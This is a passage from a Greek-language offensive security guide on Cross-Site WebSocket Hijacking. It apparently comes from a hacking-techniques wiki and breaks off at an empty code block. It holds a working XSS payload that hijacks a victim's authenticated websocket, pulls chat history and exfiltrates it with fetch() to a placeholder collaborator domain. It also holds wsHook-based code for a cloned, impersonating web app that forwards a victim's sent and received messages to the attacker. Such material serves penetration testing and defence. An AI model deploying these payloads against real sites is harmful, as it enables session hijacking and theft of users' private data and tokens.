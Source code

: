 Επίσης:

- Αν η authentication βασίζεται σε τοπική σύνδεση (σε localhost ή σε τοπικό δίκτυο) η επίθεση **will be possible** καθώς δεν υπάρχει τρέχουσα προστασία που να το απαγορεύει (check [more info here](https://blog.includesecurity.com/2025/04/cross-site-websocket-hijacking-exploitation-in-2025/))

### Simple Attack

Σημειώστε ότι όταν καθιερώνεται μια σύνδεση **websocket**, το **cookie** αποστέλλεται στον server. Ο **server** μπορεί να το χρησιμοποιεί για να συσχετίσει κάθε συγκεκριμένο χρήστη με τη websocket session του βάσει του αποσταλμένου cookie.

Έτσι, αν για παράδειγμα ο websocket server στέλνει πίσω το history της συνομιλίας ενός χρήστη όταν λάβει ένα msg με "READY", τότε ένα απλό XSS που καθιερώνει τη σύνδεση (το cookie θα σταλεί αυτόματα για να εξουσιοδοτήσει τον χρήστη-θύμα) και στέλνει "READY" θα μπορέσει να ανακτήσει το history της συνομιλίας.
```html
<script>
websocket = new WebSocket('wss://your-websocket-URL')
websocket.onopen = start
websocket.onmessage = handleReply
function start(event) {
websocket.send("READY"); //Send the message to retreive confidential information
}
function handleReply(event) {
//Exfiltrate the confidential information to attackers server
fetch('https://your-collaborator-domain/?'+event.data, {mode: 'no-cors'})
}
</script>
```
### Cross Origin + Cookie με διαφορετικό subdomain

Σε αυτό το blog post [https://snyk.io/blog/gitpod-remote-code-execution-vulnerability-websockets/](https://snyk.io/blog/gitpod-remote-code-execution-vulnerability-websockets/) ο επιτιθέμενος κατάφερε να **εκτελέσει αυθαίρετο Javascript σε subdomain** του domain όπου γινόταν η websocket επικοινωνία. Επειδή ήταν **subdomain**, το **cookie** αποστέλλονταν, και επειδή ο **Websocket** δεν έλεγχε σωστά το **Origin**, ήταν δυνατό να επικοινωνήσει μαζί του και να **κλέψει tokens**.

### Κλοπή δεδομένων από τον χρήστη

Αντιγράψτε την web εφαρμογή που θέλετε να προσποιηθείτε (π.χ. τα .html αρχεία) και μέσα στο script όπου γίνεται η websocket επικοινωνία προσθέστε αυτόν τον κώδικα:
```javascript
//This is the script tag to load the websocket hooker
;<script src="wsHook.js"></script>

//These are the functions that are gonig to be executed before a message
//is sent by the client or received from the server
//These code must be between some <script> tags or inside a .js file
wsHook.before = function (data, url) {
var xhttp = new XMLHttpRequest()
xhttp.open("GET", "client_msg?m=" + data, true)
xhttp.send()
}
wsHook.after = function (messageEvent, url, wsObject) {
var xhttp = new XMLHttpRequest()
xhttp.open("GET", "server_msg?m=" + messageEvent.data, true)
xhttp.send()
return messageEvent
}
```
Κατεβάστε τώρα το αρχείο `wsHook.js` από [https://github.com/skepticfx/wshook](https://github.com/skepticfx/wshook) και **αποθηκεύστε το μέσα στον φάκελο με τα web αρχεία**.\
Εκθέτοντας την web εφαρμογή και κάνοντας έναν χρήστη να συνδεθεί σε αυτή, θα μπορείτε να υποκλέψετε τα απεσταλμένα και ληφθέντα μηνύματα μέσω websocket:
```javascript
```